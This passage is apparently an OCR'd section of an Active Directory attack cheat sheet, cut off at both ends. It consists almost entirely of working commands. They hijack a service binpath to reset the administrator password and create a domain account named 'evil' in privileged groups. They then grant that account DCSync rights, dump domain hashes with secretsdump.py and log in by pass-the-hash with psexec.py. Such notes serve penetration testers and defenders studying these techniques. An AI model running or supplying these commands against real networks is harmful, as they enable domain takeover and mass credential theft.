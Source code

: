 ```python
sc.exe config browser binpath="C:\Windows\System32\cmd.exe /c net user administrator P@ssw0rd"
```

Verify if the binary path was successfully changed, and restart the service, then log in using psexec.py

```python
sc.exe qc browser
sc.exe stop browser
sc.exe start browser
```

### WriteDACL over Domain? Create user and assign with DSYNC rights and dump hashes

```bash
net user evil P@ssw0rd /add /domain
```

```bash
net group "Exchange Windows Permissions" evil /add
```

```bash
net group "Remote Management Users" evil /add
```

```bash
$pw = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force
```

```bash
$cred = New-Object System.Management.Automation.PSCredential('domain\user', $pw)
```

```bash
Add-ObjectACL -TargetIdentity "DC=domain,DC=com" -PrincipalIdentity evil -Rights DCSync -Credential $cred -Verbose
```

Dump secrets

```bash
python3 secretsdump.py DOMAIN.COM/evil:'P@ssw0rd'@$ip
```

Login using [psexec.py](http://psexec.py) pass the hash

```bash
python psexec.py -hashes 00000000000000000000000000000000:32213b11e6aa90eb43d32c72a07ceea6 Administrator@$ip
```

[https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection)

### WriteOwner over a privileged group?

Set him as the domain object owner of that group
